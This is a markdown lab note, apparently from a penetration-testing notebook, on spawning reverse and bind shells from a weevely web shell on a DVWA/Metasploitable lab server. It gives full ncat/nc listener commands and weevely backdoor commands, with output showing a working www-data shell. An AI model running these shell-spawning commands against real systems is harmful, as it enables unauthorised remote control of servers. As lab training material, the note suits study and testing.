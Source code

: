 # 05 - Spawn Callback Shell

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## 5.1 Reverse Shell

Attacker (waiting callback)

```
userware@hackware-os:~$ sudo ncat -lnvp 443
```

Compromised Target (Web Server)

```
weevely> backdoor_reversetcp -h
The remote script execution triggers an error 500, check script and payload integrity
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_reversetcp -shell /bin/bash -vector netcat_bsd 172.28.128.14 443
The remote script execution triggers an error 500, check script and payload integrity
Error binding socket: '[Errno 98] Address already in use'
```

Attacker (callback established)

```
userware@hackware-os:~$ sudo ncat -lnvp 443
[sudo] password for user:
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.28.128.8.
Ncat: Connection from 172.28.128.8:47902.
bash: no job control in this shell
www-data@metasploitable:/var/www/dvwa/vulnerabilities$ ls
brute
csrf
exec
fi
sqli
sqli_blind
upload
view_help.php
view_source.php
view_source_all.php
xss_r
xss_s
www-data@metasploitable:/var/www/dvwa/vulnerabilities$
```

## 5.2 Bind Shell

The `:backdoor_tcp` command module function in weevely for spawning a remote shell via netcat.

Compromised Target (Web Server).

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_tcp -shell /bin/bash -vector netcat 8080
The remote script execution triggers an error 500, check script and payload integrity
Error connecting to 172.28.128.8:443: remote port not open or unreachable
```

The alternative is you run with any commands.

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ nc -lnvp 8080
```

Attacker

```
userware@hackware-os:~$ nc 172.28.128.8 8080
```

---
## References

- [Hackers Arise: Web App Hacking Part 6 Injecting a Backdoor into a Website with Weevely](https://www.hackers-arise.com/post/2017/12/03/Web-App-Hacking-Part-6-Injecting-a-Backdoor-into-a-Website-with-weevely)